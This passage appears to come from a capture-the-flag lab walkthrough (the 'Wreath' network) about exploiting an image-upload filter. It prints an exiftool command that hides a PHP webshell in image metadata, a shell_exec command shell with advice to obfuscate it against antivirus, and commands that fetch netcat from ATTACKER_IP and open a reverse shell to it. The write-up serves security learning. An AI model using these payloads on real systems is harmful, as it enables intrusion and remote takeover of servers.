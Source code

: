 Here , we have 2 file upload filters in play. The first one using `explode` function returns the extension after the first `.` which can be bypassed using a file with multiple extensions. Also , only certain extensions are accepted : `jpg,jpeg,png,gif`
This file after bypassing the filters , gets uploaded to the `uploads/` directory.

### Exploitation
Heading to the `resources` directory , we are greeted with a login page. The username is thomas while the password is the one we found using mimikatz.

{{< image src="/images/wreath/25.png" alt="error" position="center" style="border-radius: 8px;" >}}

We can upload images here. Usiing Exiftool , we can hide the php webshell here. The php webshell won't be a live payload as it can be picked up by the AV. Hide it in the comment section using : 
```bash
exiftool -Comment="<?php echo \"<pre>Test Payload</pre>\"; die(); ?>" test-USERNAME.jpeg.php
```
where :
```php
<?php echo "<pre>Test Payload</pre>"; die();?>
```
is the webshell.

{{< image src="/images/wreath/27.png" alt="error" position="center" style="border-radius: 8px;" >}}
And we get:

{{< image src="/images/wreath/28.png" alt="error" position="center" style="border-radius: 8px;" >}}

We now have an upload point which we can use to upload PHP scripts. So let's make a php reverse shell and obfuscate it to bypass the AV. Payload:
```php
<?php
    $cmd = $_GET["wreath"];
    if(isset($cmd)){
        echo "<pre>" . shell_exec($cmd) . "</pre>";
    }
    die();
?>
```
obfuscate it using any online tool available. Once again embed the obfuscated payload into an image using Exiftool. Upload the shell and try to access it. If it worked you'll get something similar to this:

{{< image src="/images/wreath/29.png" alt="error" position="center" style="border-radius: 8px;" >}}

We can now execute commands using the wreath GET parameter. Although this shell is nice , let's go for a full reverse shell. For this , we'll upload the netcat binary.
Clone the repository:
`git clone https://github.com/int0x33/nc.exe/`
Use the nc64.exe binary
Use cURL to upload your new copy of netcat to the target:
```bash
curl http://ATTACKER_IP/nc.exe -o c:\\windows\\temp\\nc-USERNAME.exe
```
Set up a netcat listener on your attacking machine, then, in your webshell, use the following command:
```powershell
powershell.exe c:\\windows\\temp\\nc-USERNAME.exe ATTACKER_IP ATTACKER_PORT -e cmd.exe
```
{{< image src="/images/wreath/32.png" alt="error" position="center" style="border-radius: 8px;" >}}
